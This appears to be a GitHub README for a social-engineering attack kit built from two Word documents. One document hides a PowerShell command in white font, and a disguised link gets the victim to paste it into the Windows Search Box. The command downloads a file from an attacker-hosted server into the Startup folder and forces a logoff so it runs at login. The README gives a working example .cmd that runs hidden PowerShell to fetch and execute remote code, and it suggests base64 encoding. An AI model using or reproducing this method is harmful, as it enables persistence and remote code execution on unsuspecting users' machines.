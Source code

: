 # SuspiciousWordDocuments
You have received two Microsoft Word documents. Are the links safe?

# Description
Things aren't always what they seem when it comes to links. One document contains several links to different things on the web. The other looks like another plain document.
The RealJuicyWebLinks.docx file has a link that executes a PowerShell Command contained in wordfornotes.docx. Scenario: The wordfornotes commands are a way to establish persistence by grabbing the contents of a file from a hosted webserver and it's deposited in the user's Startup folder as .cmd. A shutdown /l command is the last step to execute the .cmd file upon login from the user.

# Remember
wordfornotes.docx is saved in white font. 

This only works on Windows 10 and not windows 11. To work properly, save both files to downloads. Add your hosted IP, directory, and file to Document1 that you wished to be parsed/saved to the startup directory.

# How to use
Link number 1 must be copied and pasted to the Window's Search Box. wordfornotes.docx cannot be opened at the same time of Window's Search Box execution. If testing, remember to kill wordfornotes.docx.

Add your IP, Directory, and filename to wordfornotes.docx. Note: commands could be encoded in base64.

Both files saved to Downloads.

If you edit RealJuicyWebLinks, the suspicious link may need to be updated as well back to the initial.

# Example .cmd
@echo off

powershell.exe -windowstyle hidden "(iwr https:// YOUR IP/DIRECTORY/filename -UseBasicParsing) | iex"
